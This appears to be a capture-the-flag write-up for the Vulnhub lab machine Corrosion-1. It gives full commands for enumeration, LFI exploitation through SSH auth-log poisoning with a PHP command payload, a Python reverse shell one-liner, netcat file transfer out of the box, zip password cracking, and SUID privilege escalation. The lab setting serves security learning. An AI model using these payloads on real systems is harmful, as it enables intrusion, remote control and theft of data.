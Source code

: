 ```yaml
---
title: Vulnhub - Corrosion-1 | EN
author: batmanly
date: 2023-04-28 10:10:00 +3
categories: [Writeup, Vulnhub, Corrosion]
tags: [web, writeup, vulnhub, lfi, zip_cracking, john, ssh_poisoning, previlege_escalation ]
render_with_liquid: false
---
```


# Information

## Room
-   **Name:** `Corrosion-1`
-   **Profile:** [Corrosion-1](https://www.vulnhub.com/entry/corrosion-1,730/)
-   **Difficulty:** Easy
-   **Description**: A easy box for beginners, but not too easy. Good Luck.

# Write-up

## Overview
It’s a nice room , you can exploit LFI injection , SSH poisoning attack , cracking Zip password with john , basic privilege escalation step .
# Enumeration

## Network enumeration

let's start finding ip address of the machine than we will enumeration port and services with Nmap.
```bash
sudo arp-scan -l -I ens36
```
![[]](/assets/img/vulnhub/corrosion/corrosion-1/img.png)
we find that `192.168.238.7` is our corrision-1 machine , let's run nmap and get results.

### Port and service scan with nmap:
```bash
sudo nmap -sV -T4 -sS -v -Pn -p- 192.168.238.7 -sC -oN nmap
```

```nmap
  
22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0ca71c8b4e856b168cfdb7cd5f603ea4 (RSA)
|   256 0f24f465af50d3d3aa0933c3173d63c7 (ECDSA)
|_  256 b0facd7773dae47dc875a1c55f2c210a (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.46 (Ubuntu)
MAC Address: 08:00:27:8C:25:8D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
we can recognize there is two open port , let's first investigate http server , if we didn't find anything than we can investigate ssh port too.

## Web enumeration
we can enumerate directories first , i will run ffuf for that you can run any other tools too.
```bash
ffuf -w /home/batmanly/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.238.7//FUZZ -c -ic
```

There are no links to some interesting features:
```

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 1ms]
tasks                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 0ms]
blog-post               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 1ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 3ms]
:: Progress: [1273820/1273820] :: Job [1/1] :: 11071 req/sec :: Duration: [0:01:01] :: Errors: 0 ::

```
we find two folder after i look tasks folder i find interesting things about SSH , i think this machine has a vulnerability like LFI we will utilize  this vulnerability with SSH log and get shell , let's continue examine our other path , it's look still developing this website so let's run FFUF in this directory.

```bash
ffuf -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.238.7/blog-post/FUZZ -c -recursion -ic -e .txt,.php,.bak,.tar.gz 
```

```
                        [Status: 200, Size: 190, Words: 20, Lines: 12, Duration: 2ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 1ms]
archives                [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 0ms]
[INFO] Adding a new job to the queue: http://192.168.238.7/blog-post/archives/FUZZ

uploads                 [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 0ms]
[INFO] Adding a new job to the queue: http://192.168.238.7/blog-post/uploads/FUZZ

```

after looking up archives folder i found there is a php file `randylogs.php	`  it might keep ssh logs , so let's try to inject ssh connection php code and use this vulnerability execute command. let's try to find some parameters for this php files .

### Parameter Fuzzing
```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.238.7/blog-post/archives/randylogs.php?FUZZ=/etc/passwd -f
```

we found that LFI vulnerability is on the file parameters , let's use this and ssh auth log poising and get shell.
```
file                    [Status: 200, Size: 2832, Words: 38, Lines: 49, Duration: 1ms]
:: Progress: [4614/4614] :: Job [1/1] :: 52 req/sec :: Duration: [0:00:04] :: Errors: 
```

![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_1.png)
## Web exploitation
First we will poisining ssh auth with php code , than we can use this to get shell or execute command
```bash
ssh '<?php system($_GET["cmd"]);?>'@192.168.238.7
```
after that we can use LFI to RCE vulnerablity to execute command.
```bash
curl http://192.168.238.7/blog-post/archives/randylogs.php?file=/var/log/auth.log\&cmd=whoami
```
![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_2.png)
after tried bash and sh reverse shell i couldn't be successful , so i tried python reverse shell . that time i got a reverse shell from machine.

### Reverse Shell
After finding and executing vulnerability , let's get reverse shell and try to escalate our privileges.
```
nc -nlvp 4242
```

we can use python reverse shell.
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.238.6",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

```
http://192.168.238.9/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.238.6%22,4242));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_3.png)
now we can try to escalate root.

## Privilege Escalation
we can enumerate simple Linux command or we can use directly Linpeas to know the weakness of the machine.
![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_4.png)
```
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/builder/linpeas_base.sh
```

```bash
Run Local HTTP Server
updog -p 8080 
```

```bash
# Download linpeas_base.sh to Crossion-1 machine
wget http://192.168.238.6:8080/linpeas_base.sh
chmod +x linpeas_base.sh
./linpeas_base.sh
```
after search some location i found a `/var/backups` inside that directory there is a user_backup.zip ,so let's get it our machine , and crack this zip with john.
```bash
nc 192.168.238.6 4343 < user_backup.zip
```

```bash
nc -lnvp 4343 > user.zip
```

###  Cracking Zip With John
For cracking zip with john first we must get hash of zip and give it john with wordlist .
```bash
zip2john user.zip > hash

#cracking
john hash --wordlist=~/rockyou.txt
```
![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_5.png)
after finding zip password we can extract zip  and see what's inside that.
![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_6.png)
let's try to connect server with ssh key and password. with password we could access corrison-1 server, 
```bash
ssh randy@192.168.238.9
```

### Elevation of Privilege : User to Root
after look around we can there's a file called `easysysinfo.c` we can examine this and see what we can do with that. this file used by randy inside `~/tools/easyinfo` it has suid bit of root. so we can try to utilize this to get root shell.
![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_7.png)
![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_8.png)
we can run `easyinfo` without sudo password .
if we can run this file as `sudo` let's try to overwrite this file with bash and run that to get shell.

![[]](/assets/img/vulnhub/corrosion/corrosion-1/img_9.png)

![[]](/assets/img/vulnhub/corrosion/corrosion-1/root.gif)
Yep. Now we Got root. Thanks for reading until the end , if you have any feedback i will appreciate to get , knowing different ways to get root always good for me.
